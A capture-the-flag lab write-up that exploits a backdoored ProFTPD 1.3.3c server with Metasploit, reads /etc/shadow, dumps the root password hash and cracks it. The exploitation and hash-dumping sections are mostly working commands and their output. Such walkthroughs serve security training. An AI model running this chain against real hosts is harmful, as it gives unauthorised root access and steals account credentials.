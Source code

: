 # 🔬Hashes Dumping

## Lab 1 <a href="#lab-1" id="lab-1"></a>

> 🔬 [Password Cracker: Linux](https://attackdefense.com/challengedetails?cid=1776)
>
> * Target IP: `192.75.64.3`
> * **Password Hashes** dumping - `/etc/shadow`

### Enumeration

```bash
nmap -sV 192.87.153.3
```

```bash
Starting Nmap 7.70 ( https://nmap.org ) at 2024-07-22 03:52 UTC
Nmap scan report for target-1 (192.87.153.3)
Host is up (0.0000090s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     ProFTPD 1.3.3c
MAC Address: 02:42:C0:57:99:03 (Unknown)
Service Info: OS: Unix
```

* &#x20;A proftpd 1.3.3c server is discovered running on the target machine. Run nmap vuln script to identify the vulnerability.

```bash
nmap -sV --script vuln -p 21 192.87.153.3
```

```bash
PORT   STATE SERVICE VERSION
21/tcp open  ftp     ProFTPD 1.3.3c
| ftp-proftpd-backdoor: 
|   This installation has been backdoored.
|   Command: id
|_  Results: uid=0(root) gid=0(root) groups=0(root),65534(nogroup)
|_sslv2-drown: 
MAC Address: 02:42:C0:57:99:03 (Unknown)
Service Info: OS: Unix
```

> The target proftpd installation has been running a backdoored vers&#x20;

```bash
searchsploit proftpd 1.3.3
```

<figure><img src="../../../../../.gitbook/assets/image (15) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Exploitation

```bash
service postgresql start && msfconsole -q
msf5 > search proftpd
```

<figure><img src="../../../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* Start a metasploit framework and exploit proftpd server using `exploit/unix/ftp/proftpd_133c_backdoor` module.

```bash
msf5 > setg RHOSTS 192.87.153.3
msf5 > use exploit/unix/ftp/proftpd_133c_backdoor
msf5 exploit(unix/ftp/proftpd_133c_backdoor) > exploit
```

<figure><img src="../../../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* Upgrade the sessions to a `meterpreter` session

```bash
# background the session with CTRL+Z
sessions -u 1
sessions # check available sessions
sessions 2
```

<figure><img src="../../../../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

```bash
meterpreter > sysinfo
meterpreter > getuid
```

<figure><img src="../../../../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Hashes Dumping <a href="#hashes-dumping" id="hashes-dumping"></a>

```bash
meterpreter > cat /etc/shadow
    root:$6$sgewtGbw$ihhoUYASuXTh7Dmw0adpC7a3fBGkf9hkOQCffBQRMIF8/0w6g/Mh4jMWJ0yEFiZyqVQhZ4.vuS8XOyq.hLQBb.:18348:0:99999:7:::
```

<figure><img src="../../../../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* Gather Linux Password hashes with `Metasploit`

```bash
msf5 exploit(unix/ftp/proftpd_133c_backdoor) > search hashdump
msf5 exploit(unix/ftp/proftpd_133c_backdoor) > use post/linux/gather/hashdump
msf5 post(linux/gather/hashdump) > options
msf5 post(linux/gather/hashdump) > sessions 
msf5 post(linux/gather/hashdump) > set SESSION 2
msf5 post(linux/gather/hashdump) > run
```

<figure><img src="../../../../../.gitbook/assets/image (6) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../../.gitbook/assets/image (7) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

```bash
[+] root:$6$sgewtGbw$ihhoUYASuXTh7Dmw0adpC7a3fBGkf9hkOQCffBQRMIF8/0w6g/Mh4jMWJ0yEFiZyqVQhZ4.vuS8XOyq.hLQBb.:0:0:root:/root:/bin/bash
[+] Unshadowed Password File: /root/.msf4/loot/20240722041512_default_192.87.153.3_linux.hashes_562294.txt
[*] Post module execution completed
```

* The _unshadowed password file_ is a file containing the format hashed password, ready to be cracked.

### Crack the Hash <a href="#crack-the-hash" id="crack-the-hash"></a>

```bash
search crack
use auxiliary/analyze/crack_linux
set SHA512 true
run
```

<figure><img src="../../../../../.gitbook/assets/image (8) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

{% hint style="success" %}
Flag: `password`
{% endhint %}
